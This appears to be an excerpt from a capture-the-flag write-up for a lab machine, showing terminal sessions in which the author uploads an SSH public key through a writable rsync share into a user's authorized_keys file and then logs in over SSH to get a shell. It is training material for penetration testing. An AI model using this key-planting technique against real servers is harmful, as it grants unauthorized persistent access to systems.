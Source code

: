 ```bash
business-req.txt  id_rsa.pub      os_initial     rsync_banner_files.log  smbmap.log
data.txt          initial         README.md      rsync_banner.log        usernames.txt
[elliot@archlinux]  vulnnet_internal git:(main) ✗ mkdir ssh && mv id* ssh
[elliot@archlinux]  vulnnet_internal git:(main) ✗ ls ssh
id_rsa  id_rsa.pub
```

and now uploading our `id_rsa.pub` in `sys-internal`'s `authorized_keys` in order to get the shell via ssh.
```bash
[elliot@archlinux]  vulnnet_internal git:(main) ✗ rsync -av ssh/id_rsa.pub rsync://rsync-connect@10.10.100.111/f
iles/sys-internal/.ssh/authorized_keys
Password:
sending incremental file list
id_rsa.pub

sent 682 bytes  received 35 bytes  95.60 bytes/sec
total size is 570  speedup is 0.79
[elliot@archlinux]  vulnnet_internal git:(main) ✗
```

and here we got the shell via ssh
```bash
[elliot@archlinux]  vulnnet_internal git:(main) ✗ ssh -i ssh/id_rsa sys-internal@10.10.100.111
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-135-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

541 packages can be updated.
342 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

sys-internal@vulnnet-internal:~$
```
